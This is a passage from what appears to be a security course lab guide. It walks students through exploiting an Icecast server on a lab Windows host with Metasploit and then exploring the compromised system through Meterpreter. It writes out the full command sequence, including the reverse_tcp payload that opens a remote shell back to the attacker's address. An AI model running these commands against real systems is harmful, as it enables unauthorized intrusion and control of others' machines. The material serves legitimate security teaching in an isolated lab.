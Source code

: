     <div class='alert alert-info'><strong>Note:</strong> Remember that you can
    easily check your IP in Unix/Linux by typing <code>ifconfig</code> or
    <code>ip</code> from within Metasploit.</div>

    {: #set-lhost-iface-name }
    **Note!** msfconsole allows you to specify an interface name as the `lhost`.
    The interface name for infosec-net is `virbr1`. You could set this as follows:

        set lhost virbr1


    Type `show options` to see that the variable has been set.


13. {: #setg } For convenience, set values for some of these settings to the global msfconsole
    datastore using the `setg` command. For example (verify addresses!):

        setg RHOST 192.168.56.100
        setg RHOSTS 192.168.56.100
        setg LHOST 192.168.56.101

    Then, run the msfconsole `save` command to have these values loaded for new
    msfconsole sessions.

    You should still verify that settings are correct before `run`-ing any
    exploits. Not all modules will draw from the global datastore.


14.	With all options set, now it’s time to <span class='badge badge-danger'>
    <i class='fa fa-rocket'></i> launch the exploit!</span> Type:

        exploit

    (Or equivalently, `run`, but that's less fun.)

15. You should now be presented with the `meterpreter >` prompt. If you see this,
    then <i class='fa fa-birthday-cake'></i> congratulations! You’ve exploited
    your first remote host.

16. Laugh maniacally.

For reference, here is a summary of the `msfconsole` commands you just ran.
These commands assume that you've run the above `setg` commands.

```
use exploit/windows/http/icecast_header
set payload windows/meterpreter/reverse_tcp
exploit
```

# Part 1.2: Use Meterpreter to Explore the Windows host

Now, let's explore your newfound power. You are operating
malware -- meterpreter -- that is running on a remote, compromised host. Run a few
commands to give an idea of the power of the meterpreter interface.

1.  To see all possible Meterpreter commands, type `help`.
1.  Don't do this now, but you can close a meterpreter session with the `exit`
    command. Alternatively, you can suspend your session so you can return to it
    again later with the `background` command (or by pressing `ctrl+z`).
1.  Type `sysinfo` to see information about the compromised system.
1.  Type `getuid` to see which Windows user account your session is running as.
